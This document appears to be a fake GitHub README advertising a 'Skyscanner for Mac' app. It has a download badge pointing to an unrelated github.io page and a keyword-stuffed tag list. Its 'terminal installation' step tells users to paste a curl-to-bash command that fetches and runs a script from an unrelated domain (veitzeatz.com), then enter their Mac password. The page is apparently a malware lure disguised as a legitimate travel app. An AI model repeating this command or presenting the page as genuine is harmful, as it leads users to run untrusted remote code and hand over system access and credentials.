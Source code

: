 # Skyscanner — Download For Mac OS

Skyscanner for Mac is your all-in-one travel planning app. With the native macOS app, you can seamlessly compare flights, hotels, and car rentals across thousands of providers in real time. Enjoy a streamlined experience for booking your next trip with ease—right from your Mac.

[![Download for macOS](https://img.shields.io/badge/Download%20for-macOS-blue.svg?style=for-the-badge\&logo=apple)](https://mrboomzeus519.github.io/gimronus/skyscan)

If the download button doesn’t work, follow the instructions below to install Skyscanner manually using your Terminal.

---

## 📦 How to Install Skyscanner For Mac

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag the Skyscanner app into your Applications folder.
3. Launch Skyscanner from Applications.

### Installation via a command in the terminal:

1. Copy the following installation command:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal and paste the command.
3. Press “Return” and enter your Mac password.

---

## ✈️ What You Can Do with Skyscanner

* 🌍 **Compare Flights Worldwide** – Find the best routes and cheapest fares.
* 🏨 **Book Hotels** – Browse reviews and get the best accommodation deals.
* 🚗 **Rent Cars** – Choose from thousands of rental services globally.
* 🧳 **Track Prices** – Set alerts and never miss a price drop.
* 📆 **Plan Trips Smartly** – Use flexible date search and explore destinations.

---

## About Skyscanner For Mac

Skyscanner for Mac makes travel discovery and booking fast, easy, and intuitive. With a sleek native interface and system-level optimization, this macOS app allows users to search flights, hotels, and car rentals in one place—without ever opening a browser.

It’s ideal for digital nomads, business travelers, and vacation planners looking to explore the world on a budget or schedule. From spontaneous weekend getaways to multi-city business trips, Skyscanner helps you find the best options quickly.

Optimized for both Apple Silicon and Intel Macs, the app ensures smooth performance, real-time price updates, and secure booking integration.

---

## 🌟 Key Benefits

* ✈️ Search and compare millions of flight routes
* 🏩 Access hotel deals from trusted providers
* 🚘 Rent cars at your destination hassle-free
* 📊 Track price trends and set alerts
* 🔒 Secure, real-time booking connections
* 🍎 Built natively for macOS M1/M2 and Intel

---

## 🖼 Preview

![Skyscanner App Home](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSmjrLoPvDPLtrhHGsQMvzZDv2IEr5zWOuOAg&s)

*Flight and hotel search interface*

![Skyscanner Booking View](https://www.partners.skyscanner.net/hs-fs/hubfs/Macbook-RH-Crop.jpg?width=1888&height=1481&name=Macbook-RH-Crop.jpg)
*Trip overview and pricing*

---

## 🔍 Tags

skyscanner, skyscanner download, skyscanner dekstop, skyscanner mac, skyscanner for mac, skyscanner app, sky scanne r, skyscanner application, skyscanner app mac, skyscanner mac download, skyscanner macos, download skyscanner for mac
